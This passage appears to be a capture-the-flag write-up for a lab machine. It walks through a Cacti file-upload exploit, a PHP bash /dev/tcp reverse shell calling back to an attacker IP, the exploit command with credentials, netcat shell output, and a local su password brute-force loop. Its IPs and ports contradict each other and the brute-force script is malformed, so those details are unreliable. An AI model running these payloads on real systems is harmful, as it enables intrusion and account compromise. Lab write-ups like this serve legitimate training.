 ```python
logging.info("Temporary PHP shell script %s removed.", temp_php_file)
```

##### Step 1: Crafting the Payload

* To exploit this vulnerability, I create a malicious PHP payload. Instead of using a pre-existing file, I generate a one-liner PHP reverse shell script that will connect back to my machine. The script looks something like this:

```php
<?php exec('/bin/bash -c "bash -i >& /dev/tcp/10.0.0.10/1234 0>&1"'); ?>
```

* This script will allow me to gain a shell on the target server once executed.

##### Step 2: Preparing the Gzip File

* Next, I prepare this PHP script for upload by encoding it within a Gzip archive. I also sign the payload with a cryptographic signature to ensure it appears legitimate to the application. This is crucial for bypassing any integrity checks that might be in place.

##### Step 3: Uploading the Payload

* With the Gzip file ready, I send a `POST` request to the application’s file upload endpoint, including the Gzip file. After the upload, I confirm that the file has been successfully stored on the server. I do this by checking the response and ensuring that the application acknowledges the upload.

##### Step 4: Executing the Payload

* After successfully uploading the malicious payload, I then need to execute it. I send another request to the application to trigger the execution of the uploaded PHP file. If everything goes as planned, this will execute my reverse shell script on the server, opening a connection back to my machine. 

```bash
python3 exploit.py http://cacti.monitorsthree.htb/cacti/ admin greencacti2001
```

* Gives shell as `www-data`:
```bash
❯ nc -nvlp 9999                                                                  
listening on [any] 9999 ...            
connect to [10.10.16.33] from (UNKNOWN) [10.10.11.30] 51088 
bash: cannot set terminal process group (1200): Inappropriate ioctl for device 
bash: no job control in this shell                                                                                            
www-data@monitorsthree:~/html/cacti/resource$
```

## User Access 

* After enumerating the box for hours, I tried brute forcing the password using several tools and scripts. 
* I made a password spray attack script which generates numerical passwords and try them

```bash
#!/bin/bash

for LENGTH in $(seq 1 10); do
	for PASS in $(seq 1 $LENGTH | awk '{printf "%s", $0}'); do
	
		echo "Trying password: $PASS"
		echo $PASS | su marcus -c whoami 2>/dev/null

		if [ $? -eq 0 ]; then
			echo "Successful password: $PASS"
			exit
		fi
	done 
```
